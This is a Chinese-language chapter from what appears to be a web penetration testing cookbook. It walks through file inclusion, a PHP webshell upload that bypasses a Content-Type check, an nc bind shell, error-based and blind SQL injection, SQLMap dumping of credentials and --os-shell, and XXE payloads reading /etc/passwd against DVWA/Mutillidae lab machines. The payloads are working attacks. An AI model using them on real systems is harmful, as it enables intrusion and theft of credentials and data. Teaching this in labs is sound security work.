



# 第六章：利用注入漏洞

在本章中，我们将涵盖以下主题：

+   寻找文件包含

+   滥用文件包含和上传

+   手动识别 SQL 注入

+   按步骤进行的基于错误的 SQL 注入

+   识别和利用盲 SQL 注入

+   使用 SQLMap 查找并利用 SQL 注入

+   利用 XML 外部实体注入

+   检测和利用命令注入漏洞

# 介绍

根据 OWASP Top 10 2017 列表（[`www.owasp.org/index.php/Top_10-2017_Top_10`](https://www.owasp.org/index.php/Top_10-2017_Top_10)），注入漏洞，如 SQL、操作系统命令和 XML 注入，是最常见的漏洞，并且它们对所有 web 应用程序漏洞的影响最大。

注入漏洞发生在来自用户提供的、不可信数据需要被服务器解释时。攻击者可以欺骗解释器将这些数据当作可执行指令，从而使其执行非预期的命令或在没有适当授权的情况下访问数据。

在本章中，我们将讨论当今 web 应用程序中的主要注入漏洞，并且还会查看用于检测和利用这些漏洞的工具和技术。

# 寻找文件包含

文件包含漏洞发生在开发者使用用户可以修改的请求参数来动态选择加载哪些页面或将哪些代码包含在服务器将要执行的代码中时。此类漏洞可能导致系统完全被攻陷，如果服务器执行了包含的文件。

在这个实例中，我们将测试一个 web 应用程序，以发现它是否容易受到文件包含的攻击。

# 如何执行...

我们将使用 **Damn Vulnerable Web Application** (**DVWA**) 来进行本实例，因此我们需要 Kali 和易受攻击的虚拟机。让我们来看看以下步骤：

1.  登录到 DVWA 并进入文件包含页面。

1.  说明中提到我们应该编辑 `GET` 参数 `page` 来测试包含，因此我们尝试使用 `index.php`。结果如下所示：


看起来在该目录中没有 `index.php` 文件（或者文件为空）。也许这意味着 **本地文件包含** (**LFI**) 是可能的。

1.  要尝试 LFI，我们需要知道一个真实存在于本地的文件名。我们知道 DVWA 根目录下有一个 `index.php` 文件，因此我们尝试结合目录遍历和文件包含。将 `../../index.php` 设置为页面变量，然后我们得到以下结果：


通过这个，我们演示了 LFI 和目录遍历都可以成功（通过使用 `*../../*`，我们遍历了目录树）。

1.  下一步是尝试**远程文件包含**（**RFI**），即包含托管在另一台服务器上的文件，而不是本地文件。由于我们的易受攻击虚拟机没有互联网访问权限（或者出于安全原因不应该有），我们将尝试包含托管在 Kali 机器上的文件。在 Kali 中打开终端并启动 Apache 服务：

```
# service apache2 start
```

1.  现在，在浏览器中，我们通过将页面的 URL 作为参数输入到易受攻击的应用程序中，来包含我们的 Kali 首页，网址为`http://192.168.56.11/dvwa/vulnerabilities/fi/?page=http://192.168.56.10/index.html`，如下所示的截图：


我们能够通过在参数中输入完整的 URL 来使应用程序加载外部页面。这意味着它容易受到 RFI 攻击。如果包含的文件包含可执行的服务器端代码（例如 PHP），则该代码将在服务器上执行，从而允许攻击者远程执行命令，这使得完全系统妥协的可能性非常大。

# 它是如何工作的...

如果我们在 DVWA 中使用查看源代码按钮，我们可以看到服务器端的源代码如下：

```
<?php 
$file = $_GET['page']; //The page we wish to display  
?> 
```

这意味着`page`变量的值直接传递到文件名中，然后它被包含在代码中。通过这种方式，我们可以在服务器上包含并执行任何我们想要的 PHP 或 HTML 文件，只要它可以通过网络访问。要受到 RFI 攻击，服务器必须在其配置中包含`allow_url_fopen`和`allow_url_include`。否则，如果文件包含漏洞存在，它将仅为 LFI。

# 还有更多...

我们还可以使用 LFI 来显示主机操作系统中的相关文件。例如，尝试包含`../../../../../../etc/passwd`，你将获得一个系统用户列表，包括他们的主目录和默认的 Shell。

# 滥用文件包含和上传

正如我们在前一个食谱中看到的，文件包含漏洞发生在开发人员使用验证不充分的输入生成文件路径并用这些路径包含源代码文件时。从 PHP 5.2.0 开始，现代版本的服务器端语言默认禁用了远程文件包含的能力，因此自 2011 年以来，RFI 攻击变得不太常见。

在这个食谱中，我们将首先上传一个恶意文件，即一个`webshell`（能够在服务器上执行系统命令的网页），并通过 LFI 执行它。

# 准备工作

在这个食谱中，我们将把文件上传到服务器。我们需要知道它将存储在哪里，以便通过编程访问它。为了获取上传位置，进入 DVWA 的上传页面并上传任何 JPG 图片。如果上传成功，它将显示上传的路径（`../../hackable/uploads/`）。现在我们知道了应用程序保存上传文件的相对路径；这对这个食谱来说足够了。

现在创建一个名为`webshell.php`的文件，内容如下：

```
<?
 system($_GET['cmd']);
 echo PHP_EOL . 'Type a command: <form method="GET" action="../../hackable/uploads/webshell.php"><input type="text" name="cmd"/></form>' . PHP_EOL;
 ?>
```

请注意，`action`参数中包含了我们通过上传 JPG 文件获得的上传路径。

# 如何做到...

让我们稍微提高难度，为这个脆弱的页面添加一些保护：登录到 DVWA，进入 DVWA 安全设置，将安全级别设置为中等。现在我们可以开始测试：

1.  首先，尝试上传我们的文件。在 DVWA 中，进入上传页面并尝试上传`webshell.php`：


所以，上传的文件需要是图像，存在对上传内容的验证；为了上传我们的`webshell`，我们需要绕过这个保护机制。

1.  避免验证的一种简单方法是将 PHP 文件重命名为有效的扩展名。但是这会导致服务器和浏览器将其视为图像，而代码无法执行。相反，我们将通过修改请求的参数来绕过此保护机制。设置 Burp Suite 作为拦截代理。

1.  选择`webshell.php`文件进行上传。

1.  在 Burp Suite 中启用拦截并点击上传。拦截到的请求如下面的截图所示：


你可以看到请求是`multipart`类型的，这意味着它有多个独立的部分，每个部分都有自己的头部。请注意第二部分中的`Content-Type`头部，它包含了我们正在尝试上传的文件的内容。它显示为`application/x-php`，这告诉服务器该文件是 PHP 脚本。

1.  将第二部分中的`Content-Type`值修改为`image/jpeg`，然后提交请求。如以下截图所示，这样就可以成功上传：


1.  下一步是使用这个`webshell`在服务器上执行系统命令。返回到 DVWA 的文件包含部分。

1.  如我们在前面的食谱中所做，使用`page`参数来包含我们的`webshell`。记得使用相对路径（`../../hackable/uploads/webshell.php`），如下图所示：



1.  页面加载了`webshell`代码，我们可以看到“Type a command”文本和下面的文本框。在文本框中输入`/sbin/ifconfig`并按下*Enter*：


成功了！如截图所示，服务器的 IP 地址是`192.168.56.11`。现在，我们可以通过在文本框中输入命令，或为`cmd`参数设置不同的值来执行服务器上的命令。

# 它是如何工作的...

首先，我们发现应用程序在接受上传之前会验证文件。应用程序验证文件的方式有多种，最简单和最常见的方法是检查文件扩展名和请求的`Content-Type`头部；此方法在本食谱中使用。为了绕过这一保护机制，我们修改了文件的内容类型，默认情况下浏览器将其设置为`application/x-php`，我们将其修改为服务器期望的类型，以便让服务器将文件作为图像接受：`image/jpeg`。

有关 HTTP 通信中有效类型的更多信息，请查看以下网址：[`developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/MIME_types`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/MIME_types) 和 [`developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/MIME_types/Complete_list_of_MIME_types`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/MIME_types/Complete_list_of_MIME_types)。

我们上传的文件 `webshell.php` 接受一个 `GET` 参数（`cmd`），并将其作为输入参数传递给 PHP 的 `system()` 函数。`system` 的作用是调用系统命令并将输出显示在响应中返回给客户端。其余代码只是一个 HTML 表单，允许我们一遍又一遍地输入命令。注意，表单的 action 被设置为文件上传的相对路径。这是因为文件并不是直接调用的，而是作为包含文件被引入的。这意味着它的代码会作为包含者代码的一部分被解释，因此，所有相对路径和网址都从包含者的角度来解释。

一旦文件上传完成，我们利用 LFI 漏洞执行了它，并在服务器上运行了系统命令。

# 还有更多…

一旦我们能够上传并执行服务器端代码，就有很多方法可以利用它来攻破服务器。例如，在绑定 shell 中，我们建立一个直接连接，允许我们直接与服务器交互，而无需通过 `webshell`。一个非常简单的做法是在服务器中运行以下命令：

```
nc -lp 12345 -e /bin/bash
```

它将打开 TCP 端口 `12345` 并监听连接。当连接成功时，它会执行 `/bin/bash`，接收输入，并通过网络将输出发送到连接的主机（攻击机）。要连接到受害者服务器，假设为 `192.168.56.10`，我们在 Kali 机器上运行以下命令：

```
nc 192.168.56.10 12345
```

这会连接到监听 `12345` 端口的服务器。也可以让服务器下载一个恶意程序，例如特权提升漏洞，并执行它以成为拥有更多权限的用户。

# 手动识别 SQL 注入

大多数现代 web 应用实现了某种数据库，SQL 是用来查询数据库的最流行语言。在 **SQL 注入**（**SQLi**）攻击中，攻击者试图通过在表单输入或请求的任何其他参数中注入 SQL 命令，来篡改应用与数据库之间的通信，迫使应用发送被修改的查询，这些查询在服务器端被用来构建 SQL 语句。

在本例中，我们将测试一个 web 应用的输入，看它是否容易受到基于错误的 SQL 注入（SQLi）攻击。

# 如何操作…

登录到 DVWA，进入 SQL 注入页面，检查安全级别是否为低：

1.  与之前的步骤一样，先通过输入一个数字来测试应用程序的正常行为。将用户 ID 设置为`1`并点击提交。通过查看结果，我们可以说应用程序查询了数据库，查看是否存在 ID 为 1 的用户，并返回了该用户的 ID、姓名和姓氏。

1.  接下来，我们必须测试如果发送应用程序没有预期的内容会发生什么。在文本框中输入`1'`并提交该 ID。如以下截图所示，应用程序应该会响应一个错误：


这个错误信息告诉我们数据库收到了一个格式不正确的查询。这并不意味着我们可以确定这里存在 SQLi，但很可能这个应用程序是脆弱的。

1.  返回到 DVWA SQL 注入页面。

1.  为了确认存在基于错误的 SQLi，我们尝试另一个输入：`1''`（这次是两个单引号）：


这次没有错误。这确认了应用程序中存在 SQLi 漏洞。

1.  现在我们将执行一个非常基础的 SQLi 攻击。在文本框中输入`'`或`'1'='1`并提交。结果应该如下所示：


看起来我们刚刚获取了数据库中注册的所有用户。

# 它是如何工作的...

SQLi 发生在输入未经过验证和清理之前就用于构建查询数据库的请求时。假设应用程序中的服务器端代码（用 PHP 编写）将查询构造如下：

```
$query = "SELECT * FROM users WHERE id='".$_GET['id']. "'"; 
```

这意味着在`id`参数中发送的数据将直接作为查询的一部分。如果我们将参数引用替换为其值，我们就得到如下：

```
$query = "SELECT * FROM users WHERE id='"."1". "'"; 
```

因此，当我们发送像之前那样的恶意输入时，PHP 解释器会按如下方式读取这行代码：

```
$query = "SELECT * FROM users WHERE id='"."' or '1'='1"."'"; 
```

生成的 SQL 语句将如下所示：

```
$query = "SELECT * FROM users WHERE id='' or '1'='1'"; 
```

这意味着如果用户`id`等于空值或`1=1`，就选择`users`表中的所有内容；因为 1 总是等于 1，所以所有用户都符合这些条件。我们发送的第一个单引号关闭了原始代码中打开的那个单引号。之后，我们可以插入一些 SQL 代码，最后一个没有关闭的单引号将使用服务器代码中已设置的那个。

这被称为**基于错误的 SQLi**，是 SQLi 最基本的形式，因为我们使用错误信息来判断我们是否通过注入构造了有效的查询，并且结果会直接显示在应用程序的输出中。

# 还有更多...

SQL 注入攻击可能造成比仅仅显示应用程序用户名更大的损害。通过利用这种漏洞，攻击者可能会提取用户的各种敏感信息，如联系方式和信用卡号码。还可能会危及整个服务器，能够执行命令并提升权限。此外，攻击者还可能能够提取数据库中的所有信息，包括数据库和系统用户、密码，并且根据服务器和内部网络配置，SQL 注入漏洞可能是全面网络和内部基础设施攻陷的入口点。

# 步骤式基于错误的 SQL 注入攻击

在之前的示例中，我们检测到一个 SQL 注入漏洞。在本示例中，我们将利用该漏洞并用它提取数据库中的信息。

# 如何进行……

我们已经知道 DVWA 存在 SQL 注入漏洞，所以让我们登录并浏览到`http://192.168.56.11/dvwa/vulnerabilities/sqli/`。然后，按照以下步骤进行操作：

1.  在检测到 SQL 注入存在后，下一步是了解内部查询，或者更准确地说，是查询结果的列数。在用户 ID 框中输入任意数字并点击提交。

1.  现在，打开 HackBar（按*F9*）并点击加载 URL。地址栏中的 URL 应该现在出现在 HackBar 中。

1.  在 HackBar 中，我们将 id 参数的值替换为`1' order by 1 -- '`并点击执行，如下截图所示：


1.  我们不断增加`order by`后面的数字并执行请求，直到出现错误。在这个例子中，错误发生在按第`3`列排序时。这意味着查询结果只有两列，当我们尝试按一个不存在的列进行排序时，会触发错误：


1.  现在我们知道查询有两列。让我们尝试使用`union`语句提取一些信息。将`id`的值设置为`1' union select 1,2 -- '` 然后执行。你应该会看到两个结果：


1.  这意味着我们可以在这个联合查询中请求两个值。让我们获取 DBMS 的版本和数据库用户。将`id`设置为`1' union select @@version,current_user() -- '` 然后执行：


1.  让我们寻找一些更相关的信息，比如应用程序的用户。首先，我们需要定位用户的表。将`id`设置为`1' union select table_schema, table_name FROM information_schema.tables WHERE table_name LIKE '%user%' -- '` 并提交，得到以下结果：


1.  好的，我们知道数据库（或模式）叫做`dvwa`，我们正在寻找的表是`users`。由于我们只有两个位置来设置值，我们需要知道表的哪些列对我们有用；将`id`设置为`1' union select column_name, 1 FROM information_schema.tables WHERE table_name = 'users' -- '`。

1.  最后，我们知道该查询具体要请求什么。将`id`设置为`1' union select user, password FROM dvwa.users -- '`：


在`First name:`字段中，我们有应用程序的用户名，而在`Surname:`字段中，我们有每个用户的密码哈希。我们可以将这些哈希复制到文本文件中，然后使用 John the Ripper 或我们喜欢的密码破解工具来尝试破解它们。

# 如何运作...

从我们的第一次注入，`1' order by 1 -- '`到`1' order by 3 -- '`，我们使用了 SQL 中的一个功能，允许我们根据查询中声明的字段顺序号来对查询结果进行排序。我们使用这个功能生成了一个错误，以便找出查询中有多少列，从而可以利用这些列创建一个`union`查询。

`union`语句用于连接两个查询，这两个查询的列数相同。通过注入这个，我们几乎可以查询数据库中的任何内容。在本示例中，我们首先检查了它是否按预期工作。之后，我们把目标设置在了`users`表，并执行了以下操作来获取数据：

1.  第一步是发现数据库和表的名称。我们通过查询`information_schema`数据库完成了这个任务，`information_schema`是存储所有数据库、表和列信息的数据库。

1.  一旦我们知道了数据库和表的名称，我们查询了表中的列，找出我们需要的列，结果是用户名和密码。

1.  最后，我们注入了一个查询，要求返回`dvwa`数据库中`users`表的所有用户名和密码。

# 识别和利用盲 SQL 注入

我们已经看到 SQL 注入漏洞是如何工作的。在本示例中，我们将介绍同类型的另一种漏洞，它不会显示错误信息或任何可能引导我们进行利用的提示。我们将学习如何识别和利用盲 SQL 注入。

# 如何做到...

登录到 DVWA 并进入 SQL 注入（盲注）：

1.  这个表单看起来和我们在前面的示例中看到的 SQL 注入表单完全一样。在文本框中输入`1`并点击提交，以查看 ID 为`1`的用户信息。

1.  现在，让我们用`1'`进行第一次测试，看看是否像前面的示例一样出现错误：


我们没有收到错误信息，但也没有结果。这里可能发生了一些有趣的事情。

1.  我们用`1''`进行第二次测试：


ID 为`1`的结果如下所示。这意味着之前的测试（`1'`）是一个错误，已被应用程序捕获并处理。我们很可能在这里有 SQLi 漏洞，但似乎是盲 SQLi—没有显示数据库信息，因此我们需要猜测。

1.  让我们尝试识别当你注入一些总是返回假值的代码时会发生什么。将`1*'*`和`'1'='2`作为用户 ID。`1`不等于`2`，因此查询中没有记录符合选择条件，结果为空。

1.  现在尝试一个在 ID 存在时始终为真的查询：`1' and '1'='1`：


这表明此页面存在盲 SQL 注入（SQLi）漏洞：如果我们注入的 SQL 代码总是返回假结果，而另一段注入代码总是返回真结果，那么我们就有了漏洞，因为服务器正在执行这些代码，即使它在响应中没有明确显示出来。

1.  在这个方案中，我们将发现连接到数据库的用户名，因此我们首先需要知道用户名的长度。我们先尝试一个。注入这个：`1' and 1=char_length(current_user()) and '1'='1`。

1.  下一步是找到 Burp Suite 代理历史中的最后一个请求，并将其发送到 Intruder，如下图所示：


1.  一旦发送到 Intruder，我们可以清除所有有效负载标记，并在第一个`and`后面的`1`处添加一个，如下图所示：


1.  进入有效负载部分，将有效负载类型设置为数字。

1.  将有效负载类型设置为顺序，从`1`到`15`，步长为 1。它应该是这样的：


1.  为了查看响应是正面还是负面，进入 Intruder 的选项，清空 Grep - Match 列表，然后添加`First name`：


我们需要在每个用于此攻击的 Intruder 标签中进行此更改。

1.  开始攻击。结果显示用户名是六个字符长：


1.  现在，我们将从猜测第一个字母开始，逐个猜测用户名的每个字符。请在应用程序中提交以下内容：`1' and current_user LIKE 'a%`。`%`字符是 SQL 中的通配符，能够匹配任何字符串。我们选择`a`作为第一个字母，以便 Burp Suite 能够获取请求。它也可以是任何字母。

1.  同样，我们将请求发送到 Intruder，并在`a`处仅保留一个有效负载标记，这是用户名的第一个字母：


1.  我们的有效负载将是一个简单的列表，包含所有小写字母（a 到 z）、数字（0 到 9）和一些特殊字符（-, +, #, %, @）。大写字母被省略，因为 MySQL 中的 select 查询对大小写不敏感。

1.  在这个 Intruder 标签中重复*步骤 12*并开始攻击，如下所示：


我们用户名的第一个字母是`d`。

1.  现在，我们需要找到用户名的第二个字符，于是我们提交`1' and current_user LIKE 'da%`到应用程序的文本框，并将请求发送给入侵者。

1.  现在，我们的有效负载标记将是紧随`d`后的`a`；换句话说，就是用户名的第二个字母。

1.  开始攻击以发现第二个字母。你将看到它是`v`：


1.  继续发现用户名中的所有六个字符。你可能会注意到，负载中的`%`符号总是被标记为正确。这是因为，正如我们之前所说，这个符号是一个通配符。我们需要它，因为它是用户名中的一个有效字符。正如我们在下面的截图中看到的，最后一个字符确实是`%`：


根据这个结果，用户名是`dvwa@%`。第二个`%`字符是我们注入的一部分，并且匹配实际用户名后面的空字符串。

1.  为了验证发现的用户名，我们将 like 操作符替换为`=`。提交`1' and current_user()='dvwa@%`到页面：


这确认我们已经找到了当前用户的正确用户名。

# 它是如何工作的...

基于错误的 SQL 注入和盲 SQL 注入在服务器端是同一个漏洞：应用程序在使用输入生成查询到数据库时，没有对输入进行消毒。它们之间的区别在于检测和利用方式。

在基于错误的 SQL 注入中，我们利用服务器发送的错误信息来识别查询类型、表名和列名。

另一方面，当我们尝试利用盲注时，我们需要通过提问来获取信息，比如*是否有一个用户名以"a"开头*？然后是*是否有一个用户名以"aa"开头*？，*或者作为一个 SQLi：`'and name like 'a%`，因此可能需要更多的时间来检测和利用。

手动利用盲 SQL 注入比基于错误的注入需要更多的努力和时间；在这个例子中，我们看到如何获取连接到数据库的用户的用户名，但在前一个例子中，我们使用一个命令就能得到它。我们本可以使用字典法来检查当前用户是否在用户名列表中，但这样会花费更多时间，而且用户名可能根本不在列表里。

一旦我们知道有注入并且知道一个正面响应的样子，我们就开始询问当前用户名的长度。我们询问数据库*当前用户名的长度是 1 吗*？*是 2 吗*？依此类推，直到发现长度。知道何时停止查找用户名中的字符非常有用。

在找出长度后，我们使用相同的技巧来发现第一个字母。`LIKE 'a%'`语句告诉 SQL 解释器第一个字母是否为`a`；其余部分无关紧要，可以是任何内容（`%`是大多数 SQL 实现中的通配符字符）。在这里，我们发现第一个字母是`d`。使用相同的原理，我们找出了其余的字符并推算出名称。

# 还有更多…

这种攻击可以通过找出数据库管理系统（DBMS）、所使用的版本，然后使用特定厂商的命令查看用户是否具有管理员权限。如果是，你可以提取所有的用户名和密码，激活远程连接，除此之外，还能做许多其他操作。你还可以尝试使用工具来自动化这种攻击，例如 SQLMap，我们将在下一个教程中介绍。

# 另见

还有另一种盲注类型，称为**基于时间的盲 SQLi**，在这种情况下，我们无法通过视觉提示知道命令是否执行（例如有效或无效账户消息）。相反，我们需要向数据库发送一个睡眠命令，如果响应时间比我们发送的时间稍长，那么它就是一个真实的响应。这种攻击过程较慢，因为有时甚至需要等待 30 秒才能得到一个字符。在这种情况下，使用 sqlninja 或 SQLMap 等工具非常有用（[`www.owasp.org/index.php/Blind_SQL_Injection`](https://www.owasp.org/index.php/Blind_SQL_Injection)）。

查看以下链接以获取有关盲 SQLi 的更多信息：

+   [`www.owasp.org/index.php/Blind_SQL_Injection`](https://www.owasp.org/index.php/Blind_SQL_Injection)

+   [`www.exploit-db.com/papers/13696/`](https://www.exploit-db.com/papers/13696/)

+   [`www.sans.org/reading-room/whitepapers/securecode/sql-injection-modes-attack-defence-matters-23`](https://www.sans.org/reading-room/whitepapers/securecode/sql-injection-modes-attack-defence-matters-23)

# 使用 SQLMap 寻找并利用 SQL 注入

如前一个教程所示，利用 SQLi 可能是一个繁琐的过程。SQLMap 是 Kali Linux 中包含的一个命令行工具，可以帮助我们自动化检测并利用 SQL 注入，支持多种技术并适用于各种数据库。

在这个教程中，我们将使用 SQLMap 检测并利用 SQL 注入（SQLi）漏洞，以获取应用程序的用户名和密码。

# 如何操作…

浏览到`http://192.168.56.11/mutillidae`并访问 OWASP Top 10 | A1 – SQL 注入 | SQLi 提取数据 | 用户信息：

1.  尝试任何用户名和密码，例如`user`和`password`，然后点击查看账户详情。

1.  登录会失败，但我们关注的是网址。前往地址栏并将完整网址复制到剪贴板。网址应类似于`http://192.168.56.11/mutillidae/index.php?page=user-info.php&username=user&password=password&user-info-php-submit-button=View+Account+Details`。

1.  现在，在终端窗口中输入以下命令：

```
sqlmap -u "http://192.168.56.11/mutillidae/index.php?page=user-info.php&username=user&password=password&user-info-php-submit-button=View+Account+Details" -p username --current-user --current-db --is-dba
```

你可以看到`-u`参数的值是复制的 URL。通过`-p`，我们告诉 SQLMap 我们想在用户名参数中查找 SQLi，并且在漏洞被利用后，我们希望它能检索当前数据库用户名和数据库名称，并了解该用户是否具有数据库中的管理员权限。检索这些信息是因为我们只想知道是否在该 URL 的`username`参数中存在 SQLi。以下截图展示了命令以及 SQLMap 执行的指示：



1.  一旦 SQLMap 检测到应用程序使用的 DBMS，它还会询问我们是否要跳过对其他 DBMS 的测试，是否要包括所有针对已检测系统的测试，即使这些测试超出了当前配置的级别和风险范围。在这种情况下，我们回答`Yes`跳过其他系统，并回答`No`包含所有测试。

1.  一旦我们指定的参数被发现存在漏洞，SQLMap 会询问我们是否要测试其他参数。我们对这个问题回答`No`，然后我们将看到结果：


1.  如果我们想获取用户名和密码，像前面那样做，我们需要知道包含这些信息的表名。在终端中执行以下命令：

```
sqlmap -u "http://192.168.56.11/mutillidae/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" -p username -D nowasp --tables
```

SQLMap 会保存它执行的注入日志，因此第二次攻击比第一次所需的时间要少。正如你所见，攻击返回了我们指定的数据库中的表列表：


1.  表格 accounts 看起来包含我们需要的信息。让我们导出它的内容：

```
sqlmap -u "http://192.168.56.11/mutillidae/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" -p username -D nowasp -T accounts --dump
```

我们现在得到了完整的用户表，可以看到在这种情况下密码没有加密，因此我们可以直接使用它们：


1.  SQLMap 还可以用于提升数据库和操作系统的权限。例如，如果数据库用户是管理员（如这里的情况），我们可以使用`--users`和`--passwords`选项提取所有数据库用户的名称和密码哈希值，如下所示的屏幕截图所示：


通常，这些也是操作系统用户，允许我们提升权限至操作系统或其他网络主机。

1.  我们还可以得到一个外壳，使我们能够直接向数据库发送 SQL 查询，如下所示：


# 它是如何工作的...

SQLMap 会对给定 URL 和数据中的所有输入进行模糊测试，或者仅对 `-p` 选项中指定的输入进行模糊测试，使用 SQLi 字符串并解析响应来发现是否存在漏洞。最好不要对所有输入进行模糊测试；更好的做法是使用 SQLMap 利用我们已经知道存在的注入漏洞，并尽量通过提供所有可用信息（如脆弱参数、数据库管理系统类型等）来缩小搜索范围；打开所有可能性去寻找注入漏洞可能会花费大量时间，并且在网络中产生非常可疑的流量。

在这个示例中，我们已经知道用户名参数对 SQLi 漏洞是脆弱的（因为我们使用了 `mutillidae` 中的 SQLi 测试页面）。在第一次攻击中，我们只想确认这里是否存在注入漏洞，并请求一些非常基本的信息：用户名（`--curent-user`）、数据库名（`--current-db`）以及用户是否是管理员（`--is-dba`）。

在第二次攻击中，我们通过 `-D` 选项指定了我们希望查询的数据库以及从先前攻击中获得的名称，并通过 `--tables` 请求列出它包含的所有表。知道了我们想获取的表（`-T accounts`），我们告诉 SQLMap 使用 `--dump` 转储其内容。

由于查询数据库的用户是 DBA，这允许我们请求数据库中其他用户的信息，SQLMap 通过 `--users` 和 `--passwords` 选项让我们的工作变得更加轻松。这些选项请求用户名和密码，因为所有的数据库管理系统都以加密方式存储用户的密码，而我们得到的只是哈希值，所以我们仍然需要使用密码破解工具来破解它们。如果你在 SQLMap 提示进行字典攻击时选择了 `Yes`，你现在可能已经知道某些用户的密码了。

我们还使用了 `--sql-shell` 选项来获取一个可以用来发送 SQL 查询到数据库的 shell。当然，这不是一个真正的 shell，只是 SQLMap 通过 SQLi 发送我们写的命令并返回查询结果。

# 还有更多…

SQLMap 还可以在 `POST` 请求中注入输入变量。为此，我们只需要添加 `--data` 选项，后面跟上引号中的 `POST` 数据，例如：`--data “username=test&password=test”`。

有时，为了访问应用程序中的敏感 URL，我们需要在应用程序中进行身份验证。如果发生这种情况，我们可以通过 `--cookie` 选项将有效会话的 cookie 传递给 SQLMap：`--cookie “PHPSESSID=ckleiuvrv60fs012hlj72eeh37”`。这对于测试 cookie 值中的注入也非常有用。

这个工具的另一个有趣功能是，除了它可以为我们提供一个 SQL shell，让我们可以发出 SQL 查询外，更有趣的是，我们还可以通过 `--os-shell` 获得数据库服务器上的命令执行权限（当注入 Microsoft SQL Server 时特别有用）。要查看 SQLMap 所有的选项和功能，可以运行 `sqlmap --help`。

# 另见

Kali Linux 包含其他能够检测和利用 SQLi 漏洞的工具，可以在使用 SQLMap 时替代或与之结合使用：

+   **sqlninja**：一款非常流行的工具，专门用于 MS SQL Server 的利用。

+   **Bbqsql**：一个用 Python 编写的盲 SQLi 框架。

+   **jsql**：一款基于 Java 的工具，具有完全自动化的 GUI；我们只需输入 URL 并点击一个按钮。

+   **Metasploit**：包括多个用于不同 DBMS 的 SQLi 模块。

# 利用 XML 外部实体注入

XML 是一种主要用于描述文档或数据结构的格式；例如，HTML 就是 XML 的一种应用。

XML 实体类似于在 XML 结构中定义的数据结构，其中一些实体能够读取系统中的文件，甚至执行命令。

在本食谱中，我们将利用 **XML 外部实体**（**XEE**）注入漏洞，从服务器读取文件并远程执行代码。

# 准备就绪

我们建议在进行此操作之前，先阅读 *滥用文件包含和上传* 这篇食谱。

# 如何实现...

请参阅以下步骤：

1.  浏览到 `http://192.168.56.11/mutillidae/index.php?page=xml-validator.php`。

1.  它说它是一个 XML 校验器。我们来试试提交示例测试，看看会发生什么。在 XML 框中输入 `<somexml><message>Hello World</message></somexml>`，然后点击“验证 XML”。它应该只显示 `Hello World` 消息在解析部分：


1.  现在，让我们来看一下它是否正确处理实体。请输入以下内容：

```
<!DOCTYPE person [
 <!ELEMENT person ANY>
 <!ENTITY person "Mr Bob">
 ]>
 <somexml><message>Hello World &person;</message></somexml>
```

在这里，我们仅定义了一个实体，并将值 `Mr Bob` 设置给它。解析器解释实体并在显示结果时替换其值：


1.  这就是内部实体的使用。让我们试试外部实体：

```
<!DOCTYPE fileEntity [
 <!ELEMENT fileEntity ANY>
 <!ENTITY fileEntity SYSTEM "file:///etc/passwd">
 ]>
 <somexml><message>Hello World &fileEntity;</message></somexml>
```

在结果中，我们可以看到注入返回了文件的内容：


使用此技术，我们可以提取系统中任何可由 Web 服务器运行的用户读取的文件。

1.  我们还可以使用 XEE 来加载网页。在 *滥用文件包含* 中，我们成功地将 Webshell 上传到服务器。我们来尝试访问它：

```
<!DOCTYPE fileEntity [ <!ELEMENT fileEntity ANY> <!ENTITY fileEntity SYSTEM "http://192.168.56.102/dvwa/hackable/uploads/webshell.php?cmd=/sbin/ifconfig"> ]> <somexml><message>Hello World &fileEntity;</message></somexml>
```

这样会导致页面包含并执行服务器端代码，并返回命令的结果：


# 它是如何工作的...

XML 提供了定义实体的可能性。在 XML 中，实体是一个与其关联的值的名称。每当实体在文档中被使用时，在处理 XML 文件时它会被其值替换。利用这一点以及可用的不同包装器（如 `file://` 加载系统文件，或 `http://` 加载 URL），我们可以滥用那些没有适当安全措施（如输入验证和 XML 解析器配置）的实现，从而提取敏感数据，甚至在服务器上执行命令。

在本教程中，我们使用了`file://`包装器来让解析器从服务器加载任意文件，之后，通过`http://`包装器调用了一个恰好是同一服务器中的`webshell`的网页，并利用它执行了系统命令。

# 还有更多...

通过此漏洞，还可以进行**拒绝服务**（**DoS**）攻击，这种攻击被称为**十亿次笑声**。你可以在维基百科上了解更多信息：[`en.wikipedia.org/wiki/Billion_laughs`](https://en.wikipedia.org/wiki/Billion_laughs)。

